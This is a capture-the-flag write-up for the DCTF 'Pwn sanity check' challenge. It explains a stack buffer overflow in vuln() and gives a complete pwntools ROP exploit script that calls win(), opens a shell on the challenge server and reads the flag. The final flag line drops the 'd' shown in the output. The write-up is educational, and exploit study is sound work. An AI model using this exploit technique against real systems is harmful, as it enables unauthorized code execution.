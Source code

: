 # Pwn sanity check

## Description

This should take about 1337 seconds to solve.

`nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480`

[pwn_sanity_check](pwn_sanity_check)

## Solution

### OVERVIEW

ELF 64-bit LSB executable, not stripped


### GOAL
    
The challenge is very simple it is all about using ROP technique. So basically, this means that we need to use traditional buffer overflow to change the value of the return address to mount our Ropchain, in order to call the `win` function which execute the system function to create a child process that executes `/bin/sh`.


### DETAILS

Let's begin. Taking a first look at the binary with `r2` we can clearly see the main function calls the `vuln()` function.
So now we can investigate the `vuln()` function.

The vulnerability within the program is in the `vuln` function which reads 256 characters from stdin by calling the `fgets` function.
There is no boundary checking and we can thus exploit this vulnerability to overwrite all values following the buffer on the stack.
Our mission is to call the `win()` function. It is not called in the program’s execution flow so we need to mount our Ropchain in order to carry out this task.
Since the win function takes two arguments as parameters we have to search for `pop|pop|ret` gadgets.

At first we calculated the offset to the return address using a pattern created by us (we can also use the `gdb` command `pattern`). The offset is `72 bytes`.

Now ne need to search for `pop|pop|ret` ROP-gadgets. We can use `ROPgadget` tool which lets us search our gadgets on our binary.

```console
$ ROPgadget --binary ./pwn_sanity_check --only="pop|pop|ret" 
```

Since we have a `64-bit binary` and the `win()` function takes two argument the gadgets that interests us are:

- `pop rdi; ret`
- `pop rsi ; pop r15 ; ret`

We have the offset to the return address and the gadgets, now we just have to put things together in the correct order and there we have it.

```
ROP_chain: junk + pop_rdi; ret + pop rsi ; pop r15 ; ret + win_address
```

```python
from pwn import *
import struct

param1 = p64(0xdeadbeef)
param2 = p64(0x1337c0de)
win = p64(0x0000000000400697)
pop_pop_ret = p64(0x0000000000400811) #pop rsi ; pop r15 ; ret
pop_ret = p64(0x0000000000400813) #pop rdi; ret

payload = b'A'*72;
payload += pop_ret;
payload += param1;
payload += pop_pop_ret;
payload += param2;
payload += param2;
payload += win;
#payload += p64(0x004006db);

p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io',7480)
#p = process('./pwn_sanity_check')
print(p.recvline())
p.sendline(payload)
print(p.recvline())
p.interactive()
```

```console
$ python exploit.py 
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
b'tell me a joke\n'
b'will this work?\n'
[*] Switching to interactive mode
you made it to win land, no free handouts this time, try harder
one down, one to go!
2/2 bro good job
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
```

#### **FLAG >>** `ctf{Ju5t_m0v3_0n}`